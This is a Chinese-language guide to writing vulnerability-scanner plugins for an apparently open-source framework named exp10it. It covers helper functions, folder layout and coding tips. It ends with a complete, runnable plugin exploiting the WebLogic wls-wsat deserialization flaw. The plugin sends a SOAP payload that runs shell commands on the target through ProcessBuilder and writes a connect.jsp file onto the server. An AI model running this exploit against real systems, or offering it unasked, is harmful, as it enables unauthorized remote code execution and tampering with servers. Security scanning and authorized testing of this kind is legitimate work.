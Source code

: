 ### 插件开发

开发的插件为具体的某一中高危漏洞扫描插件,如joomla远程执行漏洞插件,weblogic命令执行插件,wordpress sql注入插件

脚本中的target统一设置为sys.argv[1],sys.argv[1]的值为目标url

```
# 目标url可为以下3种:
# eg:
# 1.http://www.baidu.com:8080/cms/
# 2.http://www.baidu.com
# 3.http://www.baidu.com:8081/cms/index.php
```

提供主要API如下:

cms_url = get_cms_entry_from_start_url(target):
    简介:用于整理一个url的cms入口
    参数:target为目标url
    返回值:目标url的cms入口地址
    用法示例:
    get_cms_entry_from_start_url("http://www.baidu.com:8081/cms/index.php")的返回值为"http://www.baidu.com:8081/cms/"
    get_cms_entry_from_start_url("http://www.baidu.com:8081/cms")的返回值为"http://www.baidu.com:8081/cms/"
    get_cms_entry_from_start_url("http://www.baidu.com:8081")的返回值为"http://www.baidu.com:8081/"

get_target_urls_from_db(target,"exp10itdb"):
    简介:用于从数据库中取出已经完成的爬虫后的目标的所有url,用于漏洞检测
    参数:target为目标url,目前第2个参数固定为"exp10itdb"
    返回值:目标url列表,返回值是列表形式,列表中的第个值为url,但是有类特殊的url(url中包含"^"符号),这类特殊的url表示
           post类型的url,"^"之后的值为post的内容
    用法示例:
    get_target_urls_from_db("https://www.baidu.com/cms","exp10itdb")的返回值为:
    ['https://www.baidu.com/cms/admin.php',
    'https://www.baidu.com/cms/index.php?a=1&b=2',
    'https://www.baidu.com/cms/upload.php^filename=1.php&Submit=Submit',
    'https://www.baidu.com/cms/about.php',
    'https://www.baidu.com/cms/manage.php']

get_target_open_port_list(target):
    简介:从数据库中取出已经有的端口信息
    参数:target为目标url
    返回值:目标打开的端口信息,返回值为列表形式,如['80','8080','3306']
    用法示例:
    get_target_open_port_list("http://www.baidu.com:8081/cms/login.html")的返回值为["80","8080","3306","3389"]

COMMON_NOT_WEB_PORT_LIST= ['21', '22', '53', '137','139', '145', '445', '1433', '3306', '3389']
    这是一个常量,值的类型是列表,定义在在exp10it模块中

插件目录结构:
    插件放到一个新建的目录中,插件名与目录名相同
    eg:
    制作一个weblogic漏洞检测插件时,要新建一个weblogic目录,并在weblogic目录下新建weblogic.py,weblogic.py为要编写的
    插件,weblogic目录下如果检测到有漏洞需要生成一个result.txt,没有则不用生成,weblogic目录下可以有除weblogic.py外
    的用于检测漏洞的其他文件,也可没有其他文件,例如,检测到有漏洞后的weblogic目录下结构为(如果weblogic.py运行完后没
    有检测到漏洞则没有result.txt):

    weblogic/
    ├── result.txt
    └── weblogic.py

插件建议:
    1.目录命名时以下划线为连接符(如果目录名较长),目录名命名要能尽量反映出漏洞情况,如某个插件目录名为joomla_rce

    2.如果有多个网络请求,建议用多线程,eg:

    from concurrent import futures
    with futures.ThreadPoolExecutor(max_workers=15) as executor:
        executor.map(check, test_url_list)

    3.如果检测漏洞的过程中要用到临时文件,建议设置这个临时文件为"/tmp/xxx+"+str(time.time()),如:
        如果weblogic需要用到临时文件存放一些内容,建议临时文件设置为"/tmp/weblogic_1512724639.5173461",临时文件创
        建后记得删除(这里只是举个例子,下面的weblogic漏洞检测插件没有用到临时文件)

    4.插件建议只是建议,并不一定得这样,但是这样肯定是更好的,也有利于减少bug的产生和规范插件编写

如weblogic命令执行漏洞插件脚本如下:

```
import requests
import sys
import re
import os
from requests.packages.urllib3.exceptions import InsecureRequestWarning
from exp10it import COMMON_NOT_WEB_PORT_LIST
from exp10it import CLIOutput
from urllib.parse import urlparse
from exp10it import get_cms_entry_from_start_url
from exp10it import get_target_open_port_list

# 禁用安全请求警告
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
current_dir = os.path.split(os.path.realpath(__file__))[0]


# 判断漏洞是否存在
target = sys.argv[1]
# 传入的target是目标url,目标url有3种:
# eg:
# 1.http://www.baidu.com:8080/cms/
# 2.http://www.baidu.com
# 3.http://www.baidu.com:8081/cms/index.php

test_url_list = []
cms_url = get_cms_entry_from_start_url(target)
# get_cms_entry_from_start_url函数将获取target的cms入口,eg:
# target="http://www.baidu.com:8081/cms/index.php"时,函数返回值为"http://www.baidu.com:8081/cms/"
# target="http://www.baidu.com:8081/cms"时,函数返回值为"http://www.baidu.com:8081/cms/"
# target="http://www.baidu.com:8081"时,函数返回值为"http://www.baidu.com:8081/"

parsed = urlparse(target)
test_url_list.append(cms_url)

open_port_list = get_target_open_port_list(target)

for port in open_port_list:
    if port not in COMMON_NOT_WEB_PORT_LIST:
        test_url_list.append(parsed.scheme + "://" +
                             parsed.hostname + ":" + port)


def check(url):
    # 判断weblogic漏洞是否存在的地址
    check_addr = '/wls-wsat/CoordinatorPortType11'
    shell_addr = '/bea_wls_internal/connect.jsp'
    vuln_url = url + check_addr
    heads = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36',
             'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
             'Accept-Language': 'zh-CN,zh;q=0.8',
             'SOAPAction': "",
             'Content-Type': 'text/xml;charset=UTF-8'
             }

    postStr = '''
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">  
  <soapenv:Header> 
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">  
      <java> 
        <object class="java.lang.ProcessBuilder"> 
          <array class="java.lang.String" length="3"> 
            <void index="0"> 
              <string>/bin/sh</string> 
            </void>  
            <void index="1"> 
              <string>-c</string> 
            </void>  
            <void index="2"> 
              <string>find $DOMAIN_HOME -type d -name bea_wls_internal|while read f;do find $f -type f -name
              index.html;done|while read ff;do echo vulexist>$(dirname $ff)/connect.jsp;done</string>
            </void> 
          </array>  
          <void method="start"/> 
        </object> 
      </java> 
    </work:WorkContext> 
  </soapenv:Header>  
  <soapenv:Body/> 
</soapenv:Envelope>
'''

    content = requests.get(vuln_url, verify=False, timeout=10)
    if content.status_code == 200:
        rsp = requests.post(vuln_url, headers=heads, data=postStr.encode(
            "utf-8"), verify=False, timeout=10)
        content = rsp.content
        import chardet
        bytesEncoding = chardet.detect(content)['encoding']
        content = content.decode(bytesEncoding)

        if re.search(r"java\.lang\.ProcessBuilder", content, re.I):
            # print "getshell success,shell is:%s"%(url+shell_addr)
            string_to_write = "Congratulations! weblogic 远程命令执行漏洞存在:\n" + url + shell_addr + "\n"
            CLIOutput().good_print(string_to_write)
            with open("%s/result.txt" % current_dir, "a+") as f:
                f.write(string_to_write)
        else:
            print("失败")
    else:
        print(content.status_code)


from concurrent import futures
with futures.ThreadPoolExecutor(max_workers=15) as executor:
    executor.map(check, test_url_list)
```
